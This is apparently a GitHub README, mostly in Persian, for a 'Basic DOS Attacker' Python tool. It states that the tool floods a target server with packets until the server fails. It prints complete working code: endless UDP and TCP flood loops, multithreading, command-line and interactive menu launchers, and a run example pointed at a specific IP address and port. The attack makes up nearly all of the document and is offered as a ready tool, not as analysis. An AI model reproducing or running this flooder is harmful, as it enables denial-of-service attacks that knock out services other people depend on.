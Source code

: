 # Basic DOS Attacker

این یک اسکریپت ساده و پایه ای جهت انجام حملات محروم سازی از سرویس است.
این برنامه از طریق ایجاد سیل هایی از بسته ها و ارسال آن ها به سرور مقصد باعث بالا رفتن لود سرور و در نهایت از کار افتادگی آن می شود.


## نصب ابزار مورد نیاز

این پروژه برای اجرا تنها به پایتون ۳ نیاز دارد. در این پروژه تنها از پکیج های داخلی پایتون استفاده شده است و نیازی به نصب پکیج بیرونی نیست.
لییست پکیج های داخلی به کار رفته در آن به صورت زیر است:
```bash
socket
threading
random
time
argpare
```

## اجرای اسکریپت

برای اجرای اسکریپت کافی است ان را به صورت زیر اجرا کنید:
```bash
python main.py -a 188.121.110.10 -p 8085
```

همچنین برای مشاهده راهنمای برنامه و آرگومان های ورودی می توانید از دستور زیر استفاده کنید:
```bash
python main.py -h
```

برای خاتمه اسکریپت می توانید از سیگنال زیر استفاده کنید:
```bash
ctrl + c
```

آرگومان های ورودی به صورت زیر تعریف شده است:
```bash
usage: main.py [-h] -a ADDRESS [-p PORT] [-c CHOICE] [-m PACKETS] [-t THREADS]

Basic DOS Attacker

optional arguments:
  -h, --help  show this help message and exit
  -a ADDRESS  Hostname or IP address
  -p PORT     Port, default 80
  -c CHOICE   UDP or TCP, default UPD
  -m PACKETS  Num of packets in a socket, default 10
  -t THREADS  Num of threads, default 2
```

همچنین یک منو تعاملی با رابط ترمینال نیز فراهم شده است. برای اجرای آن می توانید از دستور زیر استفاده کنید
```bash
python menu.py
```


## توضیح اسکریپت

نحوه ایجاد جریان یو دی پی در کد زیر وجود دارد که در ادامه کد توضیح داده خواهد شد.
```python
def udp_flooder(thread_number, ip, port, packets):
    data = random._urandom(1024)
    s = None
    while True:
        try:
            # UDP = SOCK_DGRAM
            s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            address = (str(ip), int(port))
            for _ in range(packets):
                s.sendto(data, address)
            s.close()
            print(f"[{thread_number}] {packets} UDP packet sent")
        except (KeyboardInterrupt, socket.error):
            s.close()
            print(f"[{thread_number}] Error!")
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال یو دی پی است.
ابتدا یک داده با طول 1024 به صورت رندوم تولید می شود.
سپس در یک حلقه بی نهایت یک ساکت از نوع یو دی پی ساخته می شود.
با اتصال آی پی و پورت آدرس کامل به دست می آید.
سپس در اتصال ساکت به تعداد بسته های مطلوب بسته ارسال می کنیم.
در نهایت اتصال را می بندیم و لاگ آن را چاپ می کنیم.


نحوه ایجاد جریان تی سی پی در کد زیر وجود دارد که در ادامه کد توضیح داده خواهد شد.
```python
def tcp_flooder(thread_number, ip, port, packets):
    data = random._urandom(16)
    s = None
    while True:
        try:
            # TCP = SOCK_STREAM
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, port))
            s.send(data)
            for _ in range(packets):
                s.send(data)
            print(f"[{thread_number}] {packets} TCP packet sent")
            s.close()
        except (KeyboardInterrupt, socket.error):
            s.close()
            print(f"[{thread_number}] Error!")
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال تی سی پی است.
ابتدا یک داده با طول 16 به صورت رندوم تولید می شود.
سپس در یک حلقه بی نهایت یک ساکت از نوع تی سی پی ساخته می شود.
با اتصال آی پی و پورت آدرس کامل به دست می آید.
سپس اتصال تی سی پی برقرار می شود. مشاهده شد که در حالت تی سی پی نیاز به اتصال بودیم اما در یو دی پی اینطور نبود.
سپس در اتصال ساکت به تعداد بسته های مطلوب بسته ارسال می کنیم.
در نهایت اتصال را می بندیم و لاگ آن را چاپ می کنیم.

تابع زیر با گرفتن نوع اتصال تابع تولید کننده جریان را خروجی می دهد.
از این تابع برای انتخاب جریان ساز درون مدیر رشته های پردازشی استفاده خواهد شد.
```python
def flooder_selector(choice):
    if choice == "UDP":
        return udp_flooder
    elif choice == "TCP":
        return tcp_flooder
    else:
        return None
```

یک تابع برای مدیریت رشته های پردازشی ایجاد شده است.
```python
def thread_manager(threads, flooder, ip, port, packets):
    for i in range(threads):
        th = threading.Thread(target=flooder, daemon=True, args=(i, ip, port, packets))
        th.start()
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال تی سی پی است.
سپس به تعداد رشته های پردازشی مورد نیاز رشته حاوی جریان تولید می شود.
رشته های ساخته شده از نوع دیمن می باشند که در پشت صحنه رشته اصلی اجرا می شود و دارای اولویت کمتری نسبت به آن است. هنگامی که رشته اصلی از بین می رود تمامی رشته های دیمن نیز از بین خواهند رفت.


در نهایت یک تابع اصلی برای تجزیه آرگومان های ورودی و اجرای توابع بالا ایجاد شده است.
```python
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Basic DOS Attacker')
    parser.add_argument("-a", dest="address", required=True, help="Hostname or IP address")
    parser.add_argument("-p", dest="port", default=80, type=int, help="Port, default 80")
    parser.add_argument("-c", dest="choice", default="UDP", help="UDP or TCP, default UPD")
    parser.add_argument("-m", dest="packets", default=10, type=int, help="Num of packets in a socket, default 10")
    parser.add_argument("-t", dest="threads", default=2, type=int, help="Num of threads, default 2")
    args = parser.parse_args()

    ip = args.address
    port = args.port
    choice = args.choice
    packets = args.packets
    threads = args.threads

    flooder = flooder_selector(choice)
    thread_manager(threads, flooder, ip, port, packets)

    while True:
        time.sleep(2)
```
در انتهای این تابع یک حلقه بی نهایت ایجاد شده است تا رشته اصلی تمام نشود.
زیرا اگر این رشته تمام شود تمام زیر رشته های دیمن آن نیز خاتمه می یابند.

تابع منو نیز مشابه تابع بالا است اما به صورت تعامل از طریق ترمینال:
```python
if __name__ == '__main__':
    ip = str(input("Hostname or IP address: "))
    port = int(input("Port: "))
    choice = str(input("UDP or TCP: "))
    packets = int(input("Num of packets in a socket: "))
    threads = int(input("Num of threads: "))

    flooder = flooder_selector(choice)
    thread_manager(threads, flooder, ip, port, packets)

    while True:
        time.sleep(2)
```


## نتایج